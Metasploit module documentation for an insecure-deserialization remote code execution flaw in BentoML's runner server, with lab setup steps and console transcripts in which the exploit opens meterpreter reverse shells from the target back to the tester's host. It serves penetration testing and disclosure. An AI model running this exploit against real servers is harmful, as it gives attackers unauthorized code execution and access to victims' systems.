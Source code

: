 ## Vulnerable Application

There was an insecure deserialization in BentoML's runner server.
By setting specific headers and parameters in the POST request, it is possible to execute any unauthorized arbitrary code on the server,
which will grant the attackers to have the initial access and information disclosure on the server.

The vulnerability affects:

    * 1.0.0a1 <= BentoML < 1.4.8

This module was successfully tested on:

    * BentoML 1.3.5 installed on Ubuntu 20.04


### Installation

1. `pip install -U bentoml==1.3.5`

2. Create a file named model.py to create a simple model and save it:
```python3
import bentoml
import numpy as np

class mymodel:
    def predict(self, info):
        return np.abs(info)
    def __call__(self, info):
        return self.predict(info)

model = mymodel()
bentoml.picklable_model.save_model("mymodel", model)
```

3. Run the following command to save this model: `python3 model.py`

4. Create bentofile.yaml to build this model:
```yml
service: "service.py"  
description: "A model serving service with BentoML"  
python:
  packages:
    - bentoml
    - numpy
models:
  - tag: MyModel:latest  
include:
  - "*.py"
```

5. Create service.py to host this model:
```python3
import bentoml
from bentoml.io import NumpyNdarray
import numpy as np


model_runner = bentoml.picklable_model.get("mymodel:latest").to_runner()

svc = bentoml.Service("myservice", runners=[model_runner])

async def predict(input_data: np.ndarray):

    input_columns = np.split(input_data, input_data.shape[1], axis=1)
    result_generator = model_runner.async_run(input_columns, is_stream=True)
    async for result in result_generator:
        yield result
```

6. Run the following commands to build and host this model:
```bash
bentoml build
bentoml start-runner-server --runner-name mymodel --working-dir . --host 0.0.0.0
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios

### Python payload
```
msf6 > use exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > options

Module options (exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > set target Python\ payload
target => Python payload
msf6 exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > run lhost=192.168.56.1 rhost=192.168.56.15
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. BentoML's runner server detected.
[*] Sending stage (24772 bytes) to 192.168.56.15
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.15:47712) at 2025-04-17 20:29:12 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer        : vul
OS              : Linux 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### Linux command
```
msf6 exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > set target Linux\ Command
target => Linux Command
msf6 exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > run lhost=192.168.56.1 rhost=192.168.56.15
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. BentoML's runner server detected.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.15:43432) at 2025-04-17 20:29:48 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.15
OS           : Ubuntu 20.04 (Linux 5.4.0-212-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
